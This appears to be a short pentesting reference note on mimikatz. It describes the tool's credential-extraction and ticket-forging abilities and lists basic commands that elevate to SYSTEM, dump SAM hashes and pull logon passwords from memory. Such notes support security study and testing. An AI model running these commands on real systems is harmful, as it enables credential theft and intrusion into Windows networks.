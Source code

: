 


# mimikatz

**`mimikatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

Kiwi module in [a meterpreter in metasploit](metasploit.md) is an adaptation of mimikatz.

## No installation, portable

Download from github repo: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz).


## Basic usage

```bash
# Impersonate as NT Authority/SYSTEM (having permissions for it).
token::elevate

# List users and hashes of the machina
lsadump::sam

# Enable debug mode for our user
privilege::debug

# List users logged in the machine and still in memory
sekurlsa::logonPasswords full

